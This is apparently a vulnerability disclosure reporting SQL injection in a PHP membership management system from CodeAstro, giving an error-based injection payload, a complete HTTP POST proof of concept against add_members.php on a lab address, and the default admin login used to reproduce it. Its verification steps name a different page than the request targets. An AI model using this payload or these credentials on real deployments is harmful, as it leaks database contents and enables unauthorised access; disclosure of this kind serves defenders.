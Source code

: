 # SQLi-3

# Vulnerability Description

The membership-management-system in PHP Free Source Code (It is an open source project from [https://codeastro.com/](https://codeastro.com/)) has SQL injection vulnerabilities, which can lead to database information leakage.

1. BUG_Author:
2. vendors: https://codeastro.com/membership-management-system-in-php-with-source-code/;
3. The program is built using the PHP 7.3.4nts version;
4. Vulnerability location: /add_members.php

# Vulnerability Verification

[+] Payload:

```http
'and/**/extractvalue(1,concat(char(126),user()))and'
```

POC：

```http
POST http://192.168.10.108/membership/add_members.php HTTP/1.1
Host: 192.168.10.108
Content-Length: 1234
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.10.108
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryHmBUIqcAAkDIuO75
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36 Edg/122.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.10.108/membership/add_members.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=vh18091oo0f1meordh3s83hkfp
Connection: close

------WebKitFormBoundaryHmBUIqcAAkDIuO75
Content-Disposition: form-data; name="fullname"

aa aaa'and/**/extractvalue(1,concat(char(126),user()))and'
------WebKitFormBoundaryHmBUIqcAAkDIuO75
Content-Disposition: form-data; name="dob"

2024-02-22
------WebKitFormBoundaryHmBUIqcAAkDIuO75
Content-Disposition: form-data; name="gender"

Male
------WebKitFormBoundaryHmBUIqcAAkDIuO75
Content-Disposition: form-data; name="contactNumber"

a
------WebKitFormBoundaryHmBUIqcAAkDIuO75
Content-Disposition: form-data; name="email"

88888888@qq.com
------WebKitFormBoundaryHmBUIqcAAkDIuO75
Content-Disposition: form-data; name="address"

a
------WebKitFormBoundaryHmBUIqcAAkDIuO75
Content-Disposition: form-data; name="country"

aa
------WebKitFormBoundaryHmBUIqcAAkDIuO75
Content-Disposition: form-data; name="postcode"

a
------WebKitFormBoundaryHmBUIqcAAkDIuO75
Content-Disposition: form-data; name="occupation"

a
------WebKitFormBoundaryHmBUIqcAAkDIuO75
Content-Disposition: form-data; name="membershipType"

1
------WebKitFormBoundaryHmBUIqcAAkDIuO75
Content-Disposition: form-data; name="photo"; filename=""
Content-Type: application/octet-stream


------WebKitFormBoundaryHmBUIqcAAkDIuO75--

```

## How to verify

1.Build the vulnerability environment according to the steps provided by the source code author ;

2.login to the "Admin Panel” through the default account and password（Email: [admin@mail.com](mailto:admin@mail.com) Password: codeastro.com）;

3.The vulnerability is located at the "Settings-Update Settings" function, you should inserts Payload when you Update any  information，as shown in the following figure：

​![image](assets/image-20240227214748-krnwpnj.png)​

​![image](assets/image-20240227214843-uo77yvq.png)​

‍
